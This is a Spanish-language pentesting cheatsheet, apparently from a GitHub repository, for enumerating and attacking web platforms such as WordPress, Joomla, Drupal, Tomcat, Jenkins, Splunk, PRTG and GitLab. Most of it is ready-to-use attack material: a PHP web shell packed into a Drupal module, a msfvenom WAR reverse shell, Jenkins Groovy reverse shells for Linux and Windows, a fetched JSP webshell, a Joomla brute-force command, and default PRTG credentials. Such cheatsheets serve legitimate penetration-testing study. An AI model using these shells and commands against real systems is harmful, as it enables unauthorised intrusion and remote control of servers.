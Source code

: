# Cheatsheet ⚙

## Enumeración 👶

| Herramientas |
| --- | 
| **Nmap:** `nmap -p- --open -oX scan -iL [scopes].txt` |
| **Eyewitness:** `eyewitness --web -x scan.xml -d [Output Directory]` |
| **Aquatone** `cat scan.xml \| aquatone -nmap` | 

## WordPress 🛒

| Herramientas |
| --- | 
| **Wpscan:** `wpscan --url [Dominio] [Opciones]` |
| **Directorios:** `/wp-includes/` `/wp-admin/` `/wp-content/[plugins \| themes]` `readme.txt` |

## Joomla 🏫
| Herramienta | Uso |
| --- |:-----:|
| **Droopescan** | `droopescan scam joomla --url [Domain]` |
| **Directorios** |`/README.txt` `media/system/js/` `/administrator/manifests/files/joomla.xm` `/plugins/system/cache/cache.xml` |
| **[joomscan](https://github.com/OWASP/joomscan)** |  `python2.7 joomlascan.py -u [Domain]` |
| **[joomlabrute-force](https://github.com/ajnik/joomla-bruteforce)** | `python3 joomla-brute.py -u [Dominio] -w [Diccionario] -usr "[Username]"` |

## Drupal 💧
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `CHANGELOG.txt` `README.txt` |
| **Droopescan** | `droopescan scam drupal -u [Domain]` |
| **drupalgeddon** | **[drupalgeddon](https://www.exploit-db.com/exploits/34992)** |
| **drupalgeddon 2** | **[drupalgeddon 2](https://www.exploit-db.com/exploits/44448)** |
| **PHP Filter Module** |  `wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz` |

| Subir Módulo Vulnerable |
|:-----------------------:|
| `wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz` |
| `tar xvf captcha-8.x-1.2.tar.gz` |
| **shell.php**: `<?php system($_GET['cmd']);?>` | 
| **.htaccess**: `<IfModule mod_rewrite.c> \n RewriteEngine On \n RewriteBase / \n </IfModule>` |
| `mv shell.php .htaccess captcha` |
| **Comprimido Final:** `tar cvf captcha.tar.gz captcha/` |
| `Subimos el módulo` (Esto varía entre versiones de **Drupal**)


## Tomcat 😼
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `/docs/` `/manager` `/host-manager` |
| **.War File** | `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp` \| `zip -r backup.war cmd.jsp` |
| **msfvenom** | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war` |


## Jenkins 🤵
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `/script` |

| **`Linux` Reverse Shell** |
|:---:|

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/[IP]/[Port];cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

| **`Windows` Reverse Shell** |
|:---:|

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Splunk 🔍
| Herramienta | Uso |
| --- |:-----:|
| **Subir Aplicación Maliciosa** | `https://github.com/0xjpuff/reverse_shell_splunk.git` \| `tar -cvzf shell.tar.gz reverse_shell_splunk`  \| `Management` -> `Apps` -> `Install App From File` |

## PRTG Monitor 💻
| Herramienta | Uso |
| --- |:-----:|
| **Credenciales Por Defecto** | `prtgadmin:prtgadmin` |
| **Notifications RCE** | `https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/` |


## GitLab 🐱‍👤
| Herramienta | Uso |
| --- |:-----:|
| **Version (Authenticated)** | `/help` |
| **Projects** | `/explore`  |
| **User Enumerate** | `https://www.exploit-db.com/exploits/49821`  |
| **RCE (Authenticated)** | `https://www.exploit-db.com/exploits/49951` |

## Tomcat CGI  😾
| Herramienta | Uso |
| --- |:-----:|
| **Directorios** | `/cgi`  \| `/cgi-bin` |
| **RCE** | `http://[Dominio]/cgi/[archivo].bat?&[Command]` |
| **Extensiones de Archivos** | `.pl`-`.cgi`-`.pl`-`.bat`-`.cmd`-`.sh` |
| **ShellShock** | `https://blog.cloudflare.com/inside-shellshock/` |

## Attacking Thick Client Applications

| - | Nombres |
| --- |:-----:|
| **Herramientas** | [CFF Explorer](https://ntcore.com/?page_id=388)  \| [Process Monitor](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) \| [Strings](https://learn.microsoft.com/en-us/sysinternals/downloads/strings) \| [dnSpy](https://github.com/dnSpy/dnSpy) |

## ColdFusion 🍧🔥

| Herramienta | Uso |
| --- |:-----:|
| **Extensiones de Archivo** | `.cmf`  \| `.cfc` |
| **Directorios** | `/admin.cmf`  \| `/CFIDE/administrator/index.cfm` |


## IIS Tilde Enumeration 🔢
| Herramienta | Uso |
| --- |:-----:|
| **IIS ShortName** | `https://github.com/irsdl/IIS-ShortName-Scanner` |
| **Uso** | `java -jar iis_shortname_scanner.jar 0 5 http://[Dominio]/` |
